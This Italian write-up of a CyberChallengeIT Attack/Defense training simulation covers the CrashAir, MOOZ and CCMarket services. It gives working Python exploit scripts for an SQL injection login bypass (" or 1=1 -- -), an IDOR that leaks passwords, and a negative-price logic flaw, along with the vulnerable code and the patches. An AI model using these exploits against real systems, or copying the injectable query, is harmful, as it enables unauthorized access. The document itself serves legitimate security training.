

# Simulazione 1

Prima simulazione in formato Attack/Defense svolta il 9 e 10 giugno per l'addestramento previsto dal percorso CyberChallengeIT.

I servizi qui proposti erano:
* BioMarkt
* CC_Market
* CrashAir
* MOOZ

## CrashAir
_Categoria: web_

CrashAir è un'applicazione web che permette di prenotare voli a basso prezzo. Essa fornisce un'area riservata in cui ci sono 3 sezioni. La sezione _Reservations_ è quella principale che permette la prenotazione di un volo, con la possibilità di scegliere il proprio posto e di richiedere il check-in online. Inoltre, permette di aggiungere degli _optionals_. Gli optionals possono essere creati e personalizzati attraverso la sezione _Optionals_. Infine, la sezione _Checkout_ è relativa al processo di pagamento e permette di generare un ticket - per le prenotazioni create dall'utente - con le informazioni selezionate.




### Vulnerabilità 1 - SQLi

La prima vulnerabilità individuata è relativa ad una SQLi nel campo della password:

```python
def get_user(user_id, password=None):
    clean_old_users()

    query = 'SELECT * FROM users WHERE user_id = ?'
    if password is not None:
        query += 'AND password = "%s"' % password

    conn = get_db_connection()
    with conn:
        ris = conn.execute(query, (user_id,)).fetchone()
    conn.close()
    return ris
```

Come è possibile infatti vedere, la password passata come parametro alla funzione get_user viene inserita nella query senza effettuare alcun controllo preliminare.

**Attenzione: potrebbe sembrare che ci sia una vulnerabilità ancora più semplice e che permetta di loggarsi semplicemente non passando il campo della password. Tuttavia, per come gestita nel main la variabile "password" che viene poi passata a get_user, nel caso in cui non si passi questo campo, viene impostata a "" e non a None. È stato infatti provato questo tipo di attacco, ma per il motivo descritto non ha funzionato.**

#### Exploit

Poiché il gameserver forniva gli id degli optionals creati da alcuni utenti (come flagIds), l'idea è stata la seguente.

Per ogni flagId, innanzitutto si registrava un utente casuale per poter accedere all'endpoint "/optionals" e verificare il nome dell'utente relativo al flagId in questione (la flag si trovava sotto il campo "Instructions" relativo al flagId, che però poteva essere visto solo dall'utente che aveva creato l'optional).

```python
def get_flag(ip, hint):
	session = requests.Session()
	username = generate_random_string(8)
	password = generate_random_string(8)

	# MI REGISTRO PER TROVARE L'UTENTE RELATIVO ALL'ID
	data = {"username": username, "password": password}
	resp = session.post(f"http://{ip}:8000/register", data=data, timeout=10)
	
	resp = session.get(f"http://{ip}:8000/optionals", timeout=1)
	username = resp.text.split(f"{hint}")[1].split("<td>")[1].split("</td>")[0]
```

Successivamente si faceva il login per questo utente eseguendo l'SQL Injection, inserendo nel campo password la stringa _" or 1=1 -- -_.

```python
    # FACCIO SQLi PER ENTRARE COME L'UTENTE TROVATO
	session = requests.Session()
	data = {"username": username, "password": "\" or 1=1 -- -"}
	resp = session.post(f"http://{ip}:8000/login", data=data, timeout=1)
```

Infine, navigando sulla pagina "/optionals" trovavamo, come indicato prima, sotto la voce "Instructions" la flag ricercata. Questa volta ovviamente era visibile perché a visualizzarla era l'utente che l'aveva creata

```python
	# PRENDO I SUOI OPTIONALS PER TROVARE LA FLAG
	resp = session.get(f"http://{ip}:8000/optionals", timeout=1)

	flag = re.findall("[A-Z0-9]{31}=", resp.text)[0]
	return flag
```

#### Patch

La patch prevedeva di andare ad evitare di hardcodare l'input dell'utente nella query. Per farlo sono stati usati i prepared statement che già in parte il codice utilizzava.

```python
def get_user(user_id, password=None):
    clean_old_users()
    conn = get_db_connection()

    query = 'SELECT * FROM users WHERE user_id = ?'
    if password is not None:
        query += 'AND password = ?'
        with conn:
            ris = conn.execute(query, (user_id, password)).fetchone()
        conn.close()
        return ris

    with conn:
        ris = conn.execute(query, (user_id,)).fetchone()
    conn.close()
    return ris
```


### Vulnerabilità 2 - IDOR in Optionals

La seconda vulnerabilità individuata era una IDOR negli optionals, in quanto era possibile specificare direttamente nell'URL l'id di un optional per accedere alle sue informazioni, tra cui era presente anche la password che era stata impostata per quell'optional.

A cosa serviva la password per un optional? In pratica, l'applicazione permetteva di prenotare un volo inserendo un optional creato da un altro utente. Tuttavia, per poter fare il checkout di una prenotazione che utilizzava un optional di qualcun'altro, era necessario inserire la password di quest'optional, che era possibile recuperare come spiegato. A quel punto, come visto nella sezione precedente, bastava fare il checkout per ricevere il ticket che presentava la flag nel campo "Instructions".

#### Exploit

Per prima cosa si registrava un utente per poter accedere all'endpoint "/optionals". 

```python
def get_flag(ip, hint):
	session = requests.Session()
	username = generate_random_string(8)
	password = generate_random_string(8)

	# REGISTRAZIONE
	data = {"username": username, "password": password}
	resp = session.post(f"http://{ip}:8000/register", data=data, timeout=1)
```

Successivamente, si sfruttava l'IDOR andando a recuperare la password dell'optional in questione (ricordiamo che l'id degli optional che contenevano le flag erano forniti dal gameserver), accedendo all'endpoint _"/optionals/\<optionalId\>"_

```python
	# GET OPTIONAL BY ID PER PRENDERE LA RELATIVA PASSWORD
	resp = session.get(f"http://{ip}:8000/optionals/{hint}", timeout=1)
	password = re.findall("value=\".*", resp.text)[3][7:-2]
```

Fatto ciò, si prenotava un volo impostando l'optional id summenzionato

```python
	# POST RESERVATION
	data = {"seat_reservation": 1, "online_checkin": 1, "optional_id": hint}
	resp = session.post(f"http://{ip}:8000/reservations", data=data, timeout=1)
```

A questo punto si passava a fare il checkout andando ad inserire la password recuperata in precedenza. Si aspettava la generazione del ticket e si recuperava la flag dal campo "Instructions".

```python
	# GET CHECKOUT PER PRENDERE L'ID ASSEGNATO ALLA PRENOTAZIONE
	resp = session.get(f"http://{ip}:8000/checkout", timeout=5)
	id_reservation = re.findall("<th scope=\"row\">[0-9]+", resp.text)[0].split(">")[1]

	# GET CHECKOUT BY id_reservation
	resp = session.get(f"http://{ip}:8000/checkout/{id_reservation}", timeout=1)
	
	# INSERISCI PASSWORD PER IL CHECKOUT
	data = {"password": password}
	resp = session.post(f"http://{ip}:8000/checkout/check_pwd", data=data, timeout=1)

	# SLEEP NECESSARIA PER LA GENERAZIONE DEL TICKET
	time.sleep(2)
	
	# GET TICKETS
	resp = session.get(f"http://{ip}:8000/ticket", timeout=1)
	
	# GET FLAG
	flag = re.findall("[A-Z0-9]{31}=", resp.text)[0]
	return flag
```

#### Patch

Per fixare il problema, di conseguenza, è stato necessario aggiungere un controllo facendo in modo che gli utenti potessero accedere alle info solo dei propri optionals.

Innanzitutto, quindi, è stata modificata la funzione _get\_single\_optional_ (in database.py), prendendo come parametro, oltre a ID, anche username (impostato di default a None per evitare di compromettere porzioni di codice che utilizzavano tale funzione passando solo ID).

```python
def get_single_optional(ID, username=None):
```

Questo username si riferisce all'utente correntemente loggato. In questo modo si verifica se il proprietario dell'optional coincide con l'utente loggato. Se così non è, si restituisce None che porterà ad un error 401.

```python
if username is not None and owner != username:
    return None
```

Infine, ovviamente, si modifica main.py per passare questo username alla funzione get_single_optional.

```python
optional = get_single_optional(ID, username)
if optional is None: abort(401, text='Optional not found.')
```


## MOOZ
_Categoria: crypto_

Mooz è una piattaforma per lo scambio di messaggi. 
Un utente può:
* Registrarsi
* Effettuare il login
* Inviare/Ricevere un messaggio
* Visualizzare i messaggi inviati (anche relativamente ad un solo utente)

### Exploit 

La flag da trovare era nascosta in un messaggio cifrato inviato da un utente A ad un utente B (entrambi ricavabili da flagIds).
La piattaforma, però, permetteva di ricavare il messaggio tramite un identificativo. Il messaggio era cifrato utilizzando DES.
La vulnerabilità consiste nel non aver nascosto a dovere i dati per la generazione delle chiavi degli utenti per cui, risolvendo il problema del logaritmo discreto e compiendo qualche operazione complementare, si è riusciti a calcolare la chiave di sessione e decifrare il messaggio.

```python
@bp.route('/get_params')
@login_required
def get_params():
    return jsonify({"status":"ok", "message":"dh params","params":{"g":str(G),"p":str(P)}})

@bp.route('/get_public/<int:uid>')
@login_required
def get_users_public(uid):
    public = get_public(auth.User.query.get_or_404(int(uid)).key)
    return jsonify({"status":"ok", "message":"public user {}".format(uid),"public":str(public)})
```

### Patch

La patch trovata prevedeva di inserire un valore errato molto alto in /get_public. In questo modo, non solo non si esponevano informazioni importanti, ma si potevano anche far bloccare gli script avversari più deboli.


## CCMarket
_Categoria: pwn_


CCMarket è una challenge di pwn. In CCmarket dopo aver fatto l'accesso si ha disposizione una quota di soldi per acquistare oggetti e si può scegliere se accettare gli oggetti sul mercato oppure se creare oggetti da mettere sul mercato. Se acquistiamo gli oggetti forniti nei flagID si ottengono le flag, ovviamente non abbiamo a disposizione abbastanza soldi per acquistare i flagID, dato che il loro prezzo è MAX_INT di C. 


### Vulnerabilità - Si può generare un prezzo negativo
Il problema è che CCMarket da la possibilità di aggiungere sul mercato oggetti che hanno un prezzo negativo. In questo modo, quando acquistiamo questi oggetti, i soldi saranno aggiunti anziché essere sottratti.

Viene illustrato l'exploit.

In questa prima fase si interagisce con il servizio, facendo una registrazione di un utente e facendo il login.

```python
def get_flag(ip, hint):
	p = remote(ip, 1337)
	
	username = generate_random_string(8).encode()
	password = generate_random_string(8).encode()
	descrizione = generate_random_string(4).encode()
	item_name = generate_random_string(4).encode()
	date = str(random.randint(0, 10)).encode()
	price = "-2147481661".encode()
	
	# registrazione
	p.recvuntil(b"> ", timeout=1)
	p.sendline(b"1")

	p.recvuntil(b": ", timeout=1)
	p.sendline(username)
	p.recvuntil(b": ", timeout=1)
	p.sendline(password)
	p.recvuntil(b": ", timeout=1)
	p.sendline(descrizione)

	# login
	p.recvuntil(b"> ", timeout=1)
	p.sendline(b"2")

	p.recvuntil(b": ", timeout=1)
	p.sendline(username)
	p.recvuntil(b": ", timeout=1)
	p.sendline(password)
```

Nella seconda fase si aggiunge l'oggetto con prezzo -MAX_INT sul mercato.

```python
	# add item
	p.recvuntil(b"> ", timeout=1)
	p.sendline(b"4")

	p.recvuntil(b": ", timeout=1)
	p.sendline(item_name)
	p.recvuntil(b": ", timeout=1)
	p.sendline(date)
	p.recvuntil(b": ", timeout=1)
	p.sendline(price)

	# sell
	p.recvuntil(b"> ", timeout=1)
	p.sendline(b"5")

	resp = p.recvuntil(b"?", timeout=1).decode().split("\n")
	num_sell = 0
	for row in resp:
		if "\t" in row:
			break

		row_splitted = row.split(" ")
		if row_splitted[1] == item_name.decode():
			num_sell = row_splitted[0][:-1]

	num_sell = str(num_sell).encode()
	p.sendline(num_sell)
```

Nella terza fase compriamo l'oggetto con prezzo negativo

```python
	# buy to earn money
	p.recvuntil(b"> ", timeout=1)
	p.sendline(b"6")

	resp = p.recvuntil(b"?", timeout=1).decode().split("\n")
	num_buy = 0
	for row in resp:
		row_splitted = row.split("\t")
		if ")" not in row_splitted[0]:
			continue

		if row_splitted[1].strip() == item_name.decode():
			num_buy = row_splitted[0][:-2]

	num_buy = str(num_buy).encode()
	p.sendline(num_buy)
```

Nella quarta ed ultima fase compriamo l'oggetto con dentro la flag e ne analizziamo il contenuto per ottenere la flag.

```python
	# buy flag
	p.recvuntil(b"> ", timeout=1)
	p.sendline(b"6")

	resp = p.recvuntil(b"?", timeout=1).decode().split("\n")
	num_buy = 0
	for row in resp:
		row_splitted = row.split("\t")
		if ")" not in row_splitted[0]:
			continue

		if row_splitted[3].split("by ")[1].strip() == hint:
			num_buy = row_splitted[0][:-2]

	num_buy = str(num_buy).encode()
	p.sendline(num_buy)

	resp = p.recvuntil(b"=").decode()
	flag = re.findall("[A-Z0-9]{31}=", resp)[0]
	p.close()
	return flag
```


### Patch
Una patch che era possibile implementare era quella di verificare che un oggetto da immettere sul mercato potesse avere solo un prezzo positivo. Modificando questa funzione:


Andando a modificare la funzione **strncpy** con il metodo del PRELOADING e inserendo all'interno della funzione una verifica sul prezzo. Questo metodo non era però noto al tempo della simulazione quindi non si è riusciti a patchare.


## BioMarkt
_Categoria: web_
